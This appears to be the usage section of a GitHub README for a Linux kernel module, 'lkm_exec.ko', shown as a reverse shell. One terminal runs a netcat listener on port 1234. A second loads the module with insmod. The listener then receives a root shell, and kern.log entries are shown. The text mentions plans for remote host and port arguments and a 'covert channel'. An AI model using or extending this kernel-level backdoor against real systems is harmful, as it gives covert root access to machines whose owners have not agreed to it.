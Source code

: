 ## Usage

In a terminal (denoted T1):
T1:
```
nc -nvklp 1234
      Listening on 0.0.0.0 1234
```

and in another terminal (this time denoted T2):
T2 `sudo insmod lkm_exec.ko`
- *this will later change into arguments you actually can pass to it; like RH and RP. As well as a (covert) channel of choice*

(and go back to **`T1`**)
T1:
```
nc -nvklp 1234
    Listening on 0.0.0.0 1234
    Connection received on 127.0.0.1 47600

whoami
    root

exit
```

**How does the kern.log file look now?**
```
user@nvidia_VFIO_ws:/lkm3$ cat /var/log/kern.log 
  lkm_exec          [on]
  lkm_exec START P1 [*] 
  lkm_exec START P2 [*] 
  lkm_exec          [off]
```
